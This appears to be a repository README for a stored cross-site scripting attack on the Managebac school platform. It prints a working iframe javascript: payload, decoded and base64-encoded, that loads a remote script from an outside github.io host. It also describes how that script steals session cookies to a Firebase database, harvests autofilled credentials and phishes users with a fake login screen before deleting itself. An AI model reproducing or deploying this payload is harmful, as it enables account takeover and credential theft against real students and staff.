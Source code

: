 # Managebac XSS attack
Managebac is a very secure systen, however it has a vulnerability allowing XSS attacks using iframe src, ```<iframe src="javascript:{codehere}"><iframe>```, this enables an attacker to execute code in discussion forums or similiar to steal user credentials

# Payload used
The payload I used for this repo is:
```
<iframe id="discussion-payload-iframe" src="javascript:eval(atob(`{base64encodedhere}`));"></iframe> 
```
with the executed payload (which is in base64 for various reasons) being 
```
top.document.getElementById("discussion-payload-iframe").parentNode.parentNode.parentNode.parentNode.remove(); let a = document.createElement('script'); a.type = "module"; a.src = 'https://existencing.github.io/xss/mb.js'; top.document.head.appendChild(a);
```
which in base 64 is
```
bGV0IGEgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTsgYS50eXBlID0gIm1vZHVsZSI7IGEuc3JjID0gJ2h0dHBzOi8vZXhpc3RlbmNpbmcuZ2l0aHViLmlvL3hzcy9tYi5qcyc7IHRvcC5kb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKGEpOyB0b3AuZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoImRpc2N1c3Npb24tcGF5bG9hZC1pZnJhbWUiKS5wYXJlbnROb2RlLnBhcmVudE5vZGUucGFyZW50Tm9kZS5wYXJlbnROb2RlLnJlbW92ZSgpOyA=
```
# Functioning of code
1. Using XSS payload, inject a script into top frame of document (i.e target website)
2. Script grabs cookies of website and sends them to a Firebase DB
3. Script creates another frame which imitates login screen, if autofill credentials is enabled, then credentials are stolen and script self deletes
4. If credentials not stolen already, then a fake login screen is injected that tricks user to enter credentials, script self deletes